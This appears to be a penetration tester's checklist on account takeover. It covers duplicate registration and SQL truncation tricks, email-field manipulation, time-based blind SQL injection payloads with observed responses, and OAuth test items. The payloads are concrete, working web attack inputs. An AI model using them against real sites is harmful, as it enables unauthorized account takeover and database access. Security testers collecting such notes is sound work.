 [HTTP Request Smuggling leads to Full Accounts takeover](https://itsfading.github.io/posts/I-owe-your-Request-HTTP-Request-Smuggling-leads-to-Full-Accounts-takeover/)

#### Duplicate Registration

1. Make 2 Accounts Same in everything \[username and another things] but with Different email ID >> **ATO**
   * [Duplicate Registration - The Twinning Twins | by Jerry Shah (Jerry) | Medium](https://shahjerry33.medium.com/duplicate-registration-the-twinning-twins-883dfee59eaf)
   * Create user named: **AdMIn** (uppercase & lowercase letters)
   * Create a user named: **admin=**
   * **SQL Truncation Attack** (when there is some kind of **length limit** in the username or email) --> Create user with name: **admin \[a lot of spaces] a**
2. Play with email Parameter
   * uppsercase
   * \+1@
   * add some some in the email
   * special characters in the email name (%00, %09, %20)
   * Put black characters after the email: `test@test.com a`
   * victim@gmail.com@attacker.com
   * victim@attacker.com@gmail.com

#### SQL Injection

* In email field

```python
# SQLI in Email Field 
{"email":"asd'a@a.com"} --> Not Valid 
{"email":"asd'or'1'='1@a.com" } --> valid 
{"email":"a'-IF(LENGTH(database())>9,SLEE P(7),0)or'1'='1@a.com"} --> Not Valid 
{"email":"a'-IF(LENGTH(database())>9,SLEE P(7),0)or'1'='1@a.com"} -> Valid --> Delay: 7,854 milis 
{"email":"\\"a'-IF(LENGTH(database())=10,SLEEP(7),0)or'1'='1\\"@a.com"} --> {"code":0,"status":200,"message":"Berhasil"} --> Valid --> Delay 8,696 milis 
{"email":"\\"a"-IF(LENGTH(database())=11,SLEEP(7),0)or'1'='1\\"@a.com"} ---> {"code":0,"status":200,"message":"Berhasil"} ---> Valid --> No delay 
 # Resources 
 https://dimazarno.medium.com/bypassing-email-filter-which-leads-to-sql-injection-e57bcbfc6b17
```

* Insert Statement | Modify password of existing object/user To do so you should try to **create a new object named as the "master object"** (probably **admin** in case of users) modifying something:
  * Create user named: **AdMIn** (uppercase & lowercase letters)
  * Create a user named: **admin=**
  * **SQL Truncation Attack** (when ere is some kind of **length limit** in the username or email) --> Create user with name: **admin \[a lot of spaces] a**

#### OAUTH Takeovers

\[\[OAUTH to ATO]]

* [ ] Test `edirect_uri` for \[\[Open Redirect]] and \[\[Web-App Security/XSS|XSS]]
* [ ] Test the existence of response\_type=token
* [ ] Missing state parameter? -> CSRF
* [ ] Predictable state parameter?
* [ ] Is state parameter being verified?
